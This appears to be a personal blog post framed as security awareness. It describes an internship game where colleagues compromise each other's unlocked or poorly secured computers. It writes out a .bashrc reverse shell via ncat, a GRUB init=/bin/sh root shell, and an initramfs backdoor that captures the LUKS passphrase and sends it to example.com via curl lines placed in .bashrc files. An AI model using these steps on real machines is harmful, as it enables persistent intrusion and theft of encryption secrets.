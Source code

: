 ```yaml
---
layout: post
title: French Croissant - or why you need to lock your computer
---
```


Last year the first day of my internship I was given a computer and asked to install and secure it for two days. After that delay anyone can try to attack and compromise my machine, and if so I was welcome to buy some "French Croissants" to the team while the attacker explain his method to get access into your computer the next morning.
There are some techniques you need to be aware of when you're securing your machine, the list below is not exhaustive.

## Open session
When your colleague leave their computer without locking their session, it's time to go on their laptop and interact with it. In this scenario you can :
  - send an email to the team if he was logged into his mail account
  {% highlight plain%}
  To: team@company.com
  Subject: Croissant for all tomorrow
  {% endhighlight %}

  - if he was using Linux, you may want to keep a simple backdoor in order to do a privilege escalation and become a root user, the easiest way to achieve is to backdoor the .bashrc with a reverse-shell
  {% highlight bash%}
  ncat 192.168.1.2 4444 -e /bin/bash 2> /dev/null &
  {% endhighlight %}

## Written password
Maybe the most unskilled scenario, sometimes the user will write some interesting informations onto a paper sheet or a post-it, and leave it on their desktop. You can just grab the credential.    
![alt text]({{ site.baseurl }}/images/security-password-postit.jpg "Logo Title Text 1")

## Outdated components
The computer has to be updated, if your colleague doesn't do the regular patches you might be able to take advantages of this. Commonly you can target the Operating system e.g:Windows XP with MS08-067, or the Browser (Chrome/Firefox etc)

## Guest account
Sometimes the guest account is enable and allows you to get further access into the machine.
[LightDM (Ubuntu 16.04/16.10) - Guest Account Local Privilege Escalation](https://www.exploit-db.com/exploits/41923/)

## Debug components
Most of the times you can acces the debug application on the port 80 on the internal network if there is no filtering. Depending of the application you look for :
  - Common vulnerabilites (OWASP top 10)
  - Debug interface (Python Flask)

## USB Live ISO
When there is no bios password, it's easy to compromise the computer by booting with a Live USB / Live CD and adding the backdoor.

## Grub - root access
Even if there is a bios password you still need to secure your Grub (boot-manager), otherwise anyone can edit it in order to start a root shell.

{% highlight bash%}
Press [SHIFT KEY] to get into grub2
Press [E] to edit the command line
Append init=/bin/sh
{% endhighlight %}


## Encrypted Hard Drive
Mounting boot partition (not encrypted)
{% highlight bash%}
fdisk -l /dev/sda
mkdir /mnt/sda1
mount /dev/sda1 /mnt/sda1
{% endhighlight %}

Extracting initramfs-linux
{% highlight bash%}
cp /dev/sda1/initramfs-linux.img /tmp/initramfs-linux.img.gz
gunzip initramfs-linux.img.gz
cpio -i < initramfs-linux.img
{% endhighlight %}


Adding the backdoor and packaging back to a .img
{% highlight bash%}
vim /hooks/encrypt

backdoor line 78
echo -n "Enter passphrase for /dev/sda3: "
read -s mypass
echo -n $mypass | cryptsetup open --key-file - --type luks /dev/sda3 mymap
mkdir myfolder
mount /dev/mapper/mymap myfolder
echo "curl example.com/LUKS/$mypass 2> /dev/null" >> myfolder/home/user/.bashrc
echo "curl example.com/LUKS/$mypass 2> /dev/null" >> myfolder/home/root/.bashrc
umount myfolder
rmdir myfolder
cryptsetup close mymap


find . | cpio -o -H newc | gzip > ../test.img  
{% endhighlight %}
